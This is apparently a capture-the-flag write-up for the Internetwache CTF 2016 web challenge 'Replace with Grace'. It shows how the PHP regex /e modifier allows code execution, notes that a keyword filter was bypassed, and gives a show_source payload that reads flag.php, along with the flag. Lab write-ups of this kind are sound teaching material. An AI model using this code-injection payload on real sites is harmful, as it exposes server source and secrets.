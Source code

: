 ```yaml
---
layout: post
title:  "Internetwache CTF 2016: Replace with Grace (web 60)"
author: sigttou
categories: writeup
tags: [cat/web]
---
```


* **Category:** web
* **Points:** 60
* **Description:** 

> Regular expressions are pretty useful. Especially when you need to search and replace complex terms.

## Write-up

The given website is used to "Search & Replace" with regular expressions.
From other challenges we know, that we can execute php code using:
```php
/(.*)/e
```

The problem was, that the website filtered some inputs like:

* file
* open


It worked with:

```php
<?php
var_dump(show_source('flag.php'));
?>
```

A simple, but nice challenge.

```
IW{R3Pl4c3_N0t_S4F3}
```
